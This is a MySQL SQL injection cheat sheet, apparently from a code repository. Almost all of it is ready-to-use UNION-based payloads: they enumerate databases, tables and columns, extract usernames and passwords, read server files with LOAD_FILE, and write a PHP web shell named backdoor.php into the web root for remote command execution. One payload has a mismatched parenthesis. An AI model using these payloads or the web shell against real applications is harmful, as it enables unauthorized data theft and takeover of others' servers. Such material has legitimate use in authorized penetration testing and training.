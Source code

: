 # SQL Injection Cheat Sheet

### Before you start

* Make sure to tell the differnence between numeric and string-based SQL Injection!
* Try both `'`, `"` quotes for string prefixes for string based injection.
* Try both `--` and `#` for suffixes in all injections. 
* Do simple subtraction for numeric based injection.

### Count enumerable columns

```mysql
' ORDER BY 1;-- 
```

### Render data from the database onto the webpage

```mysql
' UNION ALL SELECT 1,2;-- 
```

### List all databases

The techniques below demonstrates how to smuggle multiple returned fields into
a single row since the application may limit the amount of rows rendered. This
technique is also limited to 1024 characters, so be aware of that.

```mysql
' UNION ALL SELECT (SELECT GROUP_CONCAT(schema_name SEPARATOR ', ') from information_schema.schemata),2;-- 
```

### List all tables for a particular database

```mysql
' UNION ALL SELECT (SELECT GROUP_CONCAT(table_name SEPARATOR ', ') from information_schema.columns where table_schema = 'somedatabase'),2;-- 
```

### Get columns for a particular table

```mysql
' UNION ALL SELECT (SELECT GROUP_CONCAT(column_name SEPARATOR ', ') from information_schema.columns where table_schema = 'somedatabase' and table_name = 'sometable'),2;-- 
```

### Get username and password in a single row

```mysql
' UNION ALL SELECT CONCAT(col1,';',col2) from sometable.somecolumn),NULL;-- 
```

### Check if you can read a file

TIP: If you cannot find the web root, then you can try to write to a web root
that you think exists and write a PHP info file to get more information about
the web server. On Apache, sometimes the default PHP file can be phpinfo.php
under the web root.

Common web roots are /var/www and /var/www html.

```mysql
' UNION ALL SELECT LOAD_FILE('/var/www/html/index.html'),NULL;--
```

### Write to a file

This will only work when the database
and webserver are on the same host and the database has permission to write to
the web root!

```mysql
' UNION ALL SELECT "<?php echo shell_exec($_GET['cmd']);?>" INTO OUTFILE "/opt/lampp/htdocs/backdoor.php";--
' UNION ALL SELECT (SELECT "<?php echo shell_exec($_GET['cmd']);?>" INTO OUTFILE "/opt/lampp/htdocs/backdoor.php"),NULL;--
```

